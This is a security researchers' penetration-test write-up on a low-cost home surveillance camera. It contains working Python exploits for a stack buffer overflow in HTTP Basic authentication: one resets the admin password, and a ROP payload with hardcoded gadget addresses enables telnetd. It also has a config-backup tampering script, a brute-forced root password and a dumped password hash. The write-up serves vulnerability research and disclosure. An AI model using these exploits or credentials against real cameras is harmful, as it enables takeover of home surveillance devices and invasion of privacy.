# IOT: Hacking a Connected Camera

*This post has also been published in the famous french magazine named **MISC** : https://connect.ed-diamond.com/MISC/MISC-102/Hacking-IoT-test-d-intrusion-d-une-camera-connectee*

## Description of the connected camera

We performed a penetration test against a connected camera.

This camera is mostly used by end-users to remotely monitor their homes.

We chose this model because it fitted with our classical customer criterias:

* An HD camera with night vision;
* Not expensive : less than 100$;
* Sold by multiple DIY stores.

In this paper, we will present the result of our tests, showing several ways to remotely take control over the camera and exploit the following vulnerabilities:

* 1.1. Stack based Buffer overflow against the web application;
* 1.2. Root shell through the serial port and modification of the Universal Boot Loader;
* 1.3. Remote code execution via command injection inside the SSID of the access point.

We will also highlight some of the bad practices found during our research:

* 1.4. Hard-coded credentials;
* 1.5. Clear text storage of API Keys in source code (Facebook, Dropbox, etc.);
* 1.6. Absence of transport layer security.


## Unboxing & Installation

The camera was delivered in a box with a USB cable and without any SD card:


After reading the manual, we used the *Axxxxxx Axxxxxxx* mobile application to configure the camera.

The network setup, which works without any direct interaction with the camera, is a little tricky behind the scene.

The prerequisite is to dispose of a WiFi network and a mobile operating system compatible with the vendor application.

Here is the process step by step:

* When it is turned on for the first time, the camera exposes a default WiFi SSID;

* The mobile application, once connected to the local WiFi network, collects the connection parameters;

* Then, the mobile application disconnect from the local WiFI SSID, and starts looking for the SSID of the camera;

* Once discovered, the application connects to the camera SSID and push the local WiFi configuration to the camera;

* In return, the camera connects to the local WiFi SSID, and so does the application;

* A new password is asked by the mobile application in order to update the default camera password.

We were then able to access the camera from our phone, without being connected to the wireless network, and obsiouly the camera was connected to the Internet (Cloud infrastructure).


## PCB (Printed Circuit Board) analysis

The camera is based on a *Goke GK7102* SoC (system on a chip) that includes multiple computer components such as the CPU, memory and storage, all in one chip.

It is mostly used by HD IP Cameras, integrating an ARM processor and supporting some cryptographic engines (AES, DES, 3DES).

Moreover, it provides a UART serial interface ([source](https://www.unifore.net/company-highlights/goke-hd-ip-camera-solution-gk7101-gk7102.html)).

Here is an overview of the interesting camera PCB side:



The other side brings together a CMOS sensor, a MT7601 Wi-Fi module and an audio amplifier:




## Vulnerability analysis

### Stack based Buffer Overflow on the Web application

Having done the camera installation, we connected it to our wireless network and started to scan the network. After finding the camera IP address, we began to enumerate the services it was exposing:

```
[mickael@m ~]$ sudo nmap -sS 172.20.10.10 -n -sV -Pn --top-ports 10000 -A

Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-05 19:42 CEST
Nmap scan report for 172.20.10.10
Host is up (0.011s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Mongoose httpd
554/tcp  open  rtsp
1935/tcp open  tcpwrapped
8080/tcp open  soap       gSOAP 2.8
MAC Address: 08:EA:40:9C:69:92 (Shenzhen Bilian Electronicltd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.48 seconds
```

It was surprising to see that the telnet service would not be listening, as it would be the case with most camera of this kinds.

We wanted to analyze the web application, but credentials were required in order to access it:



We tried `admin:admin123` as set up previously during the configuration, which seemed to work. However, a blank page was returned...

We then fuzzed the web application to find some hidden directories:

```
[mickael@m ]$ wfuzz --sc 200,401 -w directory-list-2.3-small.txt http://172.20.10.10/FUZZ
Target: http://172.20.10.10/FUZZ
Total requests: 87652
==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=401     13 L	      35 W	    436 Ch	  "#"
000627:  C=401     13 L	      35 W	    436 Ch	  "log"
004362:  C=401     13 L	      35 W	    436 Ch	  "sd"
006322:  C=200      2 L	       2 W	     40 Ch	  "iphone"
025276:  C=404      1 L	       7 W	     35 Ch	  "rtdb"
```

A directory listing vulnerability exposed log data with quite a lot of sensitive information (authenticated access):



#### Interesting Directory content:
* `sd`: camera records
* `ipc_server`: a binary application, probably the web server
* `syslog.txt`: application logs
* `wifi.conf`: Wireless Wi-Fi configuration injected by the mobile application, including SSID and password.


#### HTTP Basic authentication buffer overflow

After clearing the cache and cookies in our browser, we tried to log back in the web application, but this time with large identifiers and passwords (more than 150 chars):

```
curl -u $(python -c "print 'a'*150"):$(python -c "print 'a'*150") http://127.0.0.1:1234
```

At this moment, the camera just played a "bip" sound and immediately rebooted. We tried again with another random string, and the same thing happened.

We immediately thought about a possible buffer overflow, so we started to reverse the `ipc_server` binary that we just found in the `/log` web directory. It happens to be the binary in charge of managing all the services of the camera, including the web interface where the overflow occurs.

Let's look at the disassemble code of an interesting function in *IDA Pro.* The function resets the camera password to the `admin` value:




First, choosing a "blind" approach, we developed a simple Python script thats adds more and more null bytes as a prefix to the reset function address through a loop.

Our goal here was to overflow the target buffer just enough to have the execution flow jump into the function and reset the password to `admin`. That is an easy way to confirm that the exploitation works as expected.

So, in practice, our script sends a BASIC HTTP authentication with a payload that looks like this:

```
# First loop:
NULLBYTE + RESET_PWD_ADDRESS

# Second loop:
(NULLBYTE * 2) + RESET_PWD_ADDRESS

# Third loop:
(NULLBYTE * 3) + RESET_PWD_ADDRESS
```

As a crash would occur after some of the attempts, our exploitation code should wait long enough for the camera to restart automatically. Here the script itself:

```
from requests import get
from struct import pack
from time import sleep

FORBIDDEN_URL = "http://172.20.10.10/log"
NULL_BYTE = "\x00"

RESET_PWD_ADDRESS = pack('<I', 0x7BCF4)

def main():
    is_up = 0
    for i in range(139, 250):
        while is_up == 0:
            is_up = check_connectivity()
        print "=> Camera is UP, exploiting with (%s NULL_BYTE + RESET_PWD_ADDRESS)" % i
        sleep(15) #prevent sending another increase request while the camera is rebooting
        do_exploit(i)
        is_up = 0

def check_connectivity():
    try:
    	r = get(FORBIDDEN_URL, auth=('admin','admin'), timeout=5)
        if r.status_code == 401:
            return 1
        elif r.status_code == 200:
            print "[*] /!\ Successfull exploit, connect to %s using admin:admin" % FORBIDDEN_URL
            exit(0)
        else:
            return 0
    except:
        print "[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec"
        sleep(60)
        return 0


def do_exploit(i):
    payload = i * NULL_BYTE + RESET_PWD_ADDRESS
    try:
        r = get(FORBIDDEN_URL, auth=(payload,''), timeout=5)
        exit(0)
    except:
        pass

if __name__ == '__main__':
    main()
```

Starting with the 139th attempt, the camera started to crash and reboot.

Better yet, at the 140th attempt, we got something more interesting:

```
=> Camera is UP, exploiting with (130 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (131 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (132 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (133 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (134 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (135 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (136 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (137 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (138 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (139 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (140 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
[*] /!\ Successfull exploit, connect to http://172.20.10.10/log/ using admin:admin
```

We could successfully get the password updated from our attack!

#### Gaining a remote shell

After more research, we found some ways to gain a network shell by enabling the telnetd service.

##### First way

The NX protection was enabled, as we could check from a static analysis on the `ipc_server`  binary with `gdb` and the `peda` extension:

```
$ gdb ipc_server
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

Also fearing ASLR protection, we chose to build a ROP exploit, which is the more efficient way to bypass such protections and exploit overflows blindly.

In order to do that, we started to look for interesting gadgets inside the `ipc_server` binary. We found a `system ` function that could spawn commands:



So, we just updated our initial script in order to include some ARM assembly instructions to add a `telnetd` string contained into the binary `.text` section along with the `system()` instruction address:

We also found a `telnetd` string contained into the binary `.text` section:



So, gluing these parts together, we came up the the following ARM instructions in our exploit code, which push the `telnetd` string to the stack and call `system` on it:


```
from requests import get

FORBIDDEN_URL = "http://127.0.0.1/log"

def exploit():
    sc = "\xa4\xbb\x0b\x00"  # pop {r0, pc}
    sc += "\x9c\xea\x0b\x00" # telnetd str addr
    sc += "\x98\x77\x02\x00" # system addr
    payload = 140 * "\x00" + sc
    try:
        r = get(FORBIDDEN_URL, auth=(payload,''), timeout=2)
        print r.text
        exit(0)
    except:
        pass

if __name__ == '__main__':
    exploit()
```

The exploit worked as expected: the `telnetd` service was successfully enabled!

##### Second way

Inside the `ipc_server` binary, we found a `backup.cgi` web page that is used to backup the configuration inside a compressed archive. We extracted it and found these configuration files:

```
[mickael@m mnt]$ tree
└── mtd
    └── ipc
        └── conf
            ├── config_3thddns.ini
            ├── config_action.ini
            ├── config_alarm.ini
            ├── config_alarm_token.ini
            ├── config_com485.ini
            ├── config_cover.ini
            ├── config_custom.ini
            ├── config_debug.ini
            ├── config_devices.ini
            ├── config_encode.ini
            ├── config_image.ini
            ├── config_md.ini
            ├── config_ntp.ini
            ├── config_osd.ini
            ├── config_ptz.ini
            ├── config_recsnap.ini
            ├── config_run3g.ini
            ├── config_schedule.ini
            ├── config_sysinfo.ini
            ├── config_timer.ini
            ├── config_user.ini
            ├── config_videoex.ini
            ├── ipcam_upnp.xml
            ├── TZ
            ├── udhcpc
            │   ├── default.bound
            │   ├── default.deconfig
            │   ├── default.leasefail
            │   ├── default.renew
            │   └── default.script
            ├── udhcps
            │   └── udhcpd.conf
            └── wifi.conf
```
Among them, an interesting `config_debug.ini` file contained information about a debug mode:

```ini
[debug]
denable	= "0"
dserver	= "192.168.1.88 "
dport	= "12990"
[telnet]
tenable = "0"
```

We just patched it to enable the `telnetd` service and rebuild the `config_file` archive, following the [documentation](https://www.themadhermit.net/wp-content/uploads/2013/03/FI9821W-CGI-Commands.pdf).

We pushed the archive in a `POST` request to the `restore` function:

```html
<form name="test" method="post" enctype="multipart/form-data" action="http://172.20.10.10/restore.cgi">
<input type="file" name="setting_file">
<input type="submit" value="restore">
</form>
```

However, the `telnetd` service was not enabled after the camera reboot. Something was wrong... Indeed, we discovered a specific string at the end of backup configuration:



Note the base64 encoded string. It can be decoded to the "VF" and "HX" chars. We suppose that "HX" corresponds to the camera series and "VF" means "verify":

```
$ echo "ARAAAGh4VkZIWAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | base64 -d
hxVFHX
```

We added this "secure" chunk to our patched `config_file` archive, using a simple python script:

```
#!/usr/bin/env python

INITIAL_FILE = "initial_config_backup.bin"
PATCHED_FILE = "final_config_backup.bin"

def main():
    with open(INITIAL_FILE, "r") as f:
        initial_file_content = f.read()
    to_patch = initial_file_content[-262:]
    with open(PATCHED_FILE, "r") as f:
        patched_file_content = f.read()
    patched_file_content = (patched_file_content[:-262] + to_patch)
    with open(PATCHED_FILE, 'wb') as f :
        f.write(patched_file_content)


if __name__ == '__main__':
    main()
```

With the newly generated backup file archive, we successfully restored the configuration and, once again, enabled the telnet service!


### Obtaining credentials

We performed a simple bruteforce attack, which revealed the `2601hx` password for both the `admin` and `root` users.

Moreover, we were `sudoers`, with full privileges in the camera operating system:

```
[mickael@m ~]$ telnet 172.20.10.10
Trying 172.20.10.10...
Connected to 172.20.10.10.
Escape character is '^]'.

IPCamera login: admin
Password:
$ su
Password:
$ cat /etc/shadow
root:RdQhwfYI/a1kQ:0:0:99999:7:::
bin:*:10933:0:99999:7:::
daemon:*:10933:0:99999:7:::
adm:*:10933:0:99999:7:::
lp:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
shutdown:*:10933:0:99999:7:::
halt:*:10933:0:99999:7:::
uucp:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
ftp:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
default::10933:0:99999:7:::
admin:RdQhwfYI/a1kQ:0:0:99999:7:::
```


### Going further with the stack overflow vulnerability

We wanted to get a better understanding of the vulnerability.

It was probably possible to exploit the stack based buffer overflow in order to get a remote reverse shell, but surely not using a blind method as describe here.

To setup our environment, we used QEMU and a n ARMraspberry image with `gdb` to debug the program.

We also had to manually patch the binary program for more than twenty ARM instructions, using hexedit, in order to bypass some hardware checks and exceptions happening because we were running in a virtualized environment.

In this setup, we sent 140 `A` chars and the `BCDE` string as an HTTP Basic Authentication. As expected, the `$pc` stack pointer (`$eip` equivalent in ARM-x86) was successfully overwritten.

As a result, the program crashed with the following message in `gdb`:

```
0x45444342 in ?? ()

```

Looking at the backtrace, we noticed the function where the crash occurs:

```
gdb$ backtrace
#0  0x45444342 in ?? ()
#1  0x00042ac0 in HI_INI_User_Auth ()
#2  0x00000000 in ?? ()
```

The inspection of the `$pc` stack pointer confirmed the overwriting:

```
gdb$ frame 0
#0  0x45444342 in ?? ()
gdb$ i r
r0             0xffffffff	0xffffffff
r1             0xb4c12b79	0xb4c12b79
r2             0x67	0x67
r3             0x0	0x0
r4             0x41414141	0x41414141
r5             0x41414141	0x41414141
r6             0x41414141	0x41414141
r7             0x1a6634	0x1a6634
r8             0x1a6664	0x1a6664
r9             0x1a6630	0x1a6630
r10            0x1a4620	0x1a4620
r11            0x1a45b0	0x1a45b0
r12            0xe0478	0xe0478
sp             0xb4c12c60	0xb4c12c60
lr             0x42ac0	0x42ac0
pc             0x45444342	0x45444342 <<<<<<<<<<<<<<<<<<<<<<<<<
cpsr           0x60000010	0x60000010

```

Moreover, all our payload was written into the stack:

```
gdb$ x/-50x $sp
0xb4c12b98:	0x00000000	0x00000000	0x00000000	0x00000000
0xb4c12ba8:	0x00000000	0x00000000	0x00000000	0x00000000
0xb4c12bb8:	0x001a68dc	0x00104810	0x001a68dc	0x001a68d8
0xb4c12bc8:	0x001a6634	0x00042c54	0x41414141	0x41414141
0xb4c12bd8:	0x41414141	0x41414141	0x41414141	0x41414141
0xb4c12be8:	0x41414141	0x41414141	0x41414141	0x41414141
0xb4c12bf8:	0x41414141	0x41414141	0x41414141	0x41414141
0xb4c12c08:	0x41414141	0x41414141	0x41414141	0x41414141
0xb4c12c18:	0x41414141	0x41414141	0x41414141	0x41414141
0xb4c12c28:	0x41414141	0x41414141	0x41414141	0x41414141
0xb4c12c38:	0x41414141	0x41414141	0x41414141	0x41414141
0xb4c12c48:	0x41414141	0x41414141	0x41414141	0x41414141
0xb4c12c58:	0x41414141	0x45444342
```

After sending a lot of `B` chars, we found the `HI_INI_HTTP_PLAIN_Auth_CALLBACK` function, pointed from the `$lr` link register (used to keep the return address for function call).

 So, the problem was probably before `HI_INI_User_Auth`.

Using *IDA Pro*, we inspected cross references to `HI_INI_User_Auth` and found the `HI_INI_HTTP_PLAIN_Auth_CALLBACK` function:



The `HI_INI_HTTP_BASIC_Auth_CALLBACK` function is used to decode the base64 HTTP realm and give it as an argument to the `HI_INI_HTTP_PLAIN_Auth_CALLBACK` function:



We can see in the previous screenshot that a variable (we will name it "buffer" here) is set with 128 bytes and it is then given to the `libs_base64decode` function as an argument.

This function, when provided with more more than 128 bytes, overflows the memory.

So, after setting up some software breakpoints using `gdb`, we inspected calls to `libs_base64decode`, and more precisely its arguments:



We entered and followed each instruction to finally visualize the issue.

Without any length control, the `buffer` variable is appended more and more after each loop of base64 decoding.

To prove that, we just placed a breakpoint at the end of the base64 decoding loop (`0x000254c4`) and analyzed the stack and some registers each time the breakpoint was trapped using these `gdb` commands:

```
peda-arm > b*0x000254c4
Breakpoint 7 at 0x254c4
peda-arm > commands 7
Type commands for breakpoint(s) 7, one per line.
End with a line saying just "end".
>x/100x $sp
>x/s $r1
>x/s $r2
>x/s $r3
>continue
>end
```

